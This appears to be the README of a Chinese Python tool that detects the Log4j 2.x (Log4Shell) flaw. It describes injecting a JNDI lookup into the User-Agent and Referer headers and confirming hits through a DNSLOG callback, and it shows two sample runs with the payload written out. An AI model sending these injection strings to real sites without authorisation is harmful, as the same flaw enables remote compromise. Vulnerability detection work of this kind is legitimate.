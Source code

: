 # Log4j-2.x-pythonscript

此脚本并不能匹配所有的测试环节，仅支持部分会记录UA/referer的场景，仅供参考，由于笔者找寻的案例并不多，所以不具有所有的代表性，希望大家集思广益

这是本人研究了一阵子之后写出来的脚本，一些网站使用Log4j，他会记录一些使用者的操作记录，也就是说只要是他能记录的功能就都有可能存在被注入的可能。
根据这种特性，笔者大胆猜测，一些被记录的东西除了网站合法的搜索、表单的提交、登录等，那么是不是一些请求的User-agent/referer也会被记录下来呢？

经过测试，的确是这样的，一些存在此漏洞的网站的确也可以通过上述的方式进行构造注入的请求，那么一切就变得简单了起来。

整体思维如下：
1.访问DNSLOG平台，获取DNSLOG短域名
2.访问疑似存在漏洞的地址，将POC插入至user agent头中
3.提交请求，而后程序延迟60秒，因为dns回显会存在一定的延迟，这就导致如果立即请求回显页面，那么可能会看不到任何的回显，大多数存在漏洞的网站回显时间不会超过60秒
4.60秒之后查看DNS回显结果，若是成功，则会记录

使用方式
python -u 漏洞地址


E:\PyCharm 2020.1\new>python Log4j.py.py -u http://www.xxx.com/
+---------------------------------------------------------------+
+ [Log4j 2.x 漏洞检测工具]                                         +
+ [开发者：vlan911]                                               +
+ [使用方式: python Log4j.py -u/--url http://xxx.xxx.xxx.xxx]         +
+---------------------------------------------------------------+
3ocxzg.dnslog.cn
{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0${jndi:ldap://3ocxzg.dnslog.cn}', 'Cookie': 'addm90q6duunpj3vr4es815hl3', 'Referer': 'http
://www.xxx.com/{jndi:ldap://3ocxzg.dnslog.cn}'}
[["3ocxzg.dnslog.cn","*.*.*.*","2021-12-10 22:58:38"]]
[http://www.xxx.com/][===存在漏洞===]


E:\PyCharm 2020.1\new>python Log4j.py.py -u http://xxx.com
+---------------------------------------------------------------+
+ [Log4j 2.x 漏洞检测工具]                                      +
+ [开发者：vlan911]                                             +
+ [使用方式: python Log4j.py -u/--url http://xxx.xxx.xxx.xxx]   +
+---------------------------------------------------------------+
pwnm04.dnslog.cn
{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0${jndi:ldap://pwnm04.dnslog.cn}', 'Cookie': 'addm90q6duunpj3vr4es815hl3', 'Referer': 'http
://xxx.com{jndi:ldap://pwnm04.dnslog.cn}'}
[]
[http://xxx.com][不存在漏洞]


脚本请移步右侧的release下载

